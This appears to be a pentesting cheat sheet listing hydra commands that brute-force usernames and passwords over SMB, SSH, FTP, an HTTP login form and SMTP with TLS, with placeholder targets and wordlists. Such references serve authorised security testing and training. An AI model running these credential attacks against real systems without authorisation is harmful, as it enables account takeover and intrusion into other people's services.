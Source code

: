 # Brute force passwords over SMB
```sh
hydra -l [user] -P [path_to_passwords] smb://[ip]
```

# Brute force passwords over SSH
```sh
hydra -L [path_to_usernames] -P [/usr/share/wordlists/fasttrack.txt] ssh://[target]
```

# Brute force usernames and passwords over FTP
```sh
hydra -L [path_to_usernames] -P [path_to_passwords] -u -e snr -s [port] [target] ftp
```

# Brute force usernames and passwords over HTTP-POST-FORM
```sh
hydra -L [path_to_usernames] -P [path_to_passwords] -s [port] [target] http-post-form "/login.php:Username=^USER^&Password=^PASS^&Submit=Login:Incorrect information"
# "page:payload:error"
```

# Brute force usernames and passwords over SMTP (TLS)
```sh
hydra -L [path_to_usernames] -P [path_to_passwords] -s 25 -m TLS -v -V smtp://[target]
```
